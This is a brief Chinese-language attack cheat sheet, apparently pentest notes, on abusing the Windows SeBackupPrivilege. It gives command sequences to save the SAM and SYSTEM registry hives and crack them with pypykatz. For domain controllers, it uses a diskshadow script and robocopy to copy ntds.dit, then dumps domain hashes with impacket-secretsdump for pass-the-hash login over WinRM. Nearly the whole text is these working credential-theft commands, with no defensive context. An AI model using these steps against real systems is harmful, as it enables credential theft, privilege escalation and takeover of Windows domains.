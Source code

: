 	>whoami /priv 可以看到SeBackupPrivilege状态是Enabled
	可以导出SYSTEM文件破解密码
	>reg save hklm\sam c:\Temp\sam
	>reg save hklm\system c:\Temp\system
	>pypykatz registry --sam sam system
	域环境下
	>whoami /priv 可以看到SeBackupPrivilege和SeRestorePrivilege状态是Enabled
	攻击机kali新建文件raj.dsh，内容为
	set context persistent nowriters
	add volume c: alias raj
	create
	expose %raj% z:
	执行命令
	unix2dos raj.dsh
	传至靶机执行
	>diskshadow /s raj.dsh
	>robocopy /b z:\windows\ntds . ntds.dit
	>reg save hklm\system c:\Temp\system
	kali中执行
	>impacket-secretsdump -ntds ntds.dit -system system local
	可使用winrm哈希方式登录